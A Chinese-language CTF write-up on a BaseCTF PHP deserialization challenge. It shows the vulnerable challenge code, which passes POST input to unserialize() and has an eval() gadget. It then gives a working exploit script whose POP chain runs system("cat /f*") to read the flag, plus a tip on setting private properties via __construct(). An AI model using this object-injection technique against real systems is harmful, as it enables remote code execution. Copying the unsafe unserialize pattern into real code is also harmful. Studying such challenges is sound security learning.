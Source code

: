 # 反序列化中私有属性无法访问的解决办法

<br>

## 前情提要

今天做了一下basectf 的反序列化，遇到了一个php语言版本较低，导致无法解析私有属性的访问的题目。


<br>

## 原题

````
<?php
highlight_file(__FILE__);

class Sink
{
    private $cmd = 'echo 123;';
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    private $word = 'Hello, World!';
    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
    {
        echo $this->sea->see;
    }
}

if ($_POST['nature']) {
    $nature = unserialize($_POST['nature']);
}
````

<br>

## EXP

<br>

````
<?php


class Sink
{
    private $cmd = 'system("cat /f*");';

}

class Shark
{
    private $word;
    public function __construct()
    {
        $this->word=new Sink();
    }

}

class Sea
{
    public $animal;

}

class Nature
{
    public $sea;


}

$x=new Sink;
$y=new Shark;
$z=new Sea;
$a=new Nature;

$a->sea=$z;
$z->animal=$y;


echo urlencode(serialize($a));

?>

````

<br>

## 办法

遇到私有属性的时候可以直接在exp中利用__construct()进行访问

````
class Shark
{
    private $word;
    public function __construct()
    {
        $this->word=new Sink();
    }

}
````
